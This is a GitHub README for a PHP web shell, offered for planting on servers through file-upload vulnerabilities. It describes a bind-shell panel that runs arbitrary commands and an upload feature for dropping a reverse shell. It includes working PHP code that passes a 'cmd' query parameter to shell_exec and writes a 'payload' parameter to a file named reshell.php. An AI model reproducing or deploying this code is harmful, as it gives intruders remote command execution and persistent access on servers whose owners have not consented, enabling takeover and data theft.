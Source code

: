 # extra-web-shell

## What is this?
#### this is a simple web shell, contains both, bind and option of upload a reverse shell
![extra-shell](https://raw.githubusercontent.com/hamza07-w/extra-web-shell/main/backg.png)
## How can this help me?
#### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extension methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## Bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## Create file or reverse shell section
#### here you can upload any file just copy the content of this file and the output will give you the link of it to acssess
#### you can edit the name and the extension in the source code from "reshell.php" to what you like
```php
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}	
?>

```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)
